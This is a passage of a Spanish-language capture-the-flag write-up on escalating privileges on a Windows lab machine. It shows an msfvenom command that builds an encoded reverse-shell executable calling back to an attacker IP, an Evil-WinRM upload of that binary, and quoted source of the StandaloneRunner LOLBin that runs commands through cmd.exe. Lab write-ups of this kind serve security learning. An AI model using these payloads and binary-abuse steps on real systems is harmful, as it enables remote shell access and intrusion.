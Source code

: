 Creamos el binario malicioso con `msfvenom`
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -e x86/shikata_ga_nai -f exe -o standalonerunner.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: standalonerunner.exe
```

```powershell
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> upload standalonerunner.exe
```
Nos venimos a la ruta `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64` y subimos con la función `upload` que incluye `evil-wirnm` el binario malicioso recién creado.

Y ahora si nos ponemos en escucha con `netcat` por el puerto 443...

**NO PASA NADA**
¿Por qué?  -> Por alguna razón, no podemos tocar el .exe, tenemos permisos sobre el directorio pero no sobre el .exe. Muchas personas han resuelto la máquina con este método pero resulta que no era el método intencionado y por eso fue parcheado.

Así que vamos a hacer el método intencionado.

Resulta que este binario pertenece a la colección de `LOLBins`, una colección de binarios que tienen comportamientos un poco extraños.

Buscando un poco encontré un tweet que me llevó a este [post](https://github.com/nasbench/Misc-Research/blob/main/LOLBINs/StandaloneRunner.md)

Y parece que hay una función que te permitirían ejecutar comandos si existen unas condiciones.
```cs
public static void RunCommand(string cmd)
{
    cmd = TestRunnerUtil.ParseParams(cmd, TestRunner.GlobalParams);
    ProcessStartInfo startInfo = new ProcessStartInfo();
    startInfo.WorkingDirectory = TestRunner.WorkingDir.FullName;
    startInfo.UseShellExecute = false;
    startInfo.RedirectStandardOutput = true;
    startInfo.RedirectStandardError = true;
    startInfo.FileName = "CMD.exe";
    startInfo.Arguments = "cmd /c " + cmd;
    Console.WriteLine(string.Format((IFormatProvider) CultureInfo.CurrentCulture, "Running {0}", new object[1]
    {
        (object) cmd
    }));
    Process p = Process.Start(startInfo);
    if (cmd.Contains("te.exe"))
        TestRunner.RunTAEF(p);
    p.WaitForExit();
}
```
